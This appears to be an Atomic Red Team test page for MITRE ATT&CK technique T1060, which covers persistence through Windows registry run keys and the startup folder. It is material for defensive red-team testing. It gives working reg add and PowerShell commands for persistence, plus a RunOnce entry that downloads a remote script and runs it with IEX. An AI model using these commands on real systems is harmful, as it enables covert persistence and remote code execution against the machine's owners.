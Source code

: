 # T1060 - Registry Run Keys / Startup Folder
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1060)
<blockquote>Adding an entry to the "run keys" in the Registry or startup folder will cause the program referenced to be executed when a user logs in. (Citation: Microsoft Run Key) These programs will be executed under the context of the user and will have the account's associated permissions level.

The following run keys are created by default on Windows systems:
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce</code>

The <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx</code> is also available but is not created by default on Windows Visa and newer. Registry run key entries can reference programs directly or list them as a dependency. (Citation: Microsoft RunOnceEx APR 2018) For example, it is possible to load a DLL at logon using a "Depend" key with RunOnceEx: <code>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "C:\temp\evil[.]dll"</code> (Citation: Oddvar Moe RunOnceEx Mar 2018)

The following Registry keys can be used to set startup folder items for persistence:
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders</code>
* <code>HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders</code>
* <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders</code>
* <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders</code>

Adversaries can use these configuration locations to execute malware, such as remote access tools, to maintain persistence through system reboots. Adversaries may also use [Masquerading](https://attack.mitre.org/techniques/T1036) to make the Registry entries look as if they are associated with legitimate programs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Reg Key Run](#atomic-test-1---reg-key-run)

- [Atomic Test #2 - Reg Key RunOnce](#atomic-test-2---reg-key-runonce)

- [Atomic Test #3 - PowerShell Registry RunOnce](#atomic-test-3---powershell-registry-runonce)

- [Atomic Test #4 - Startup Folder](#atomic-test-4---startup-folder)


<br/>

## Atomic Test #1 - Reg Key Run
Run Key Persistence

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Thing to Run | Path | C:\Path\AtomicRedTeam.exe|

#### Run it with `command_prompt`!
```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /t REG_SZ /F /D "#{command_to_execute}"
REG DELETE "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Atomic Red Team" /f
```
<br/>
<br/>

## Atomic Test #2 - Reg Key RunOnce
RunOnce Key Persistence

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | C:\Path\AtomicRedTeam.dll|

#### Run it with `command_prompt`!
```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /d "#{thing_to_execute}"
REG DELETE HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v 1 /f
```
<br/>
<br/>

## Atomic Test #3 - PowerShell Registry RunOnce
RunOnce Key Persistence via PowerShell

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | powershell.exe|

#### Run it with `powershell`!
```
$RunOnceKey = "HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat`")"'
Remove-ItemProperty -Path $RunOnceKey -Name "NextRun" -Force
```
<br/>
<br/>

## Atomic Test #4 - Startup Folder
Add Shortcut To Startup via PowerShell

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| thing_to_execute | Thing to Run | Path | C:\Path\AtomicRedTeam.exe|

#### Run it with `powershell`!
```
$TargetFile = "$env:SystemRoot\System32\#{thing_to_execute}"
$ShortcutFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Notepad.lnk"
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut($ShortcutFile)
$Shortcut.TargetPath = $TargetFile
$Shortcut.Save()
```
<br/>

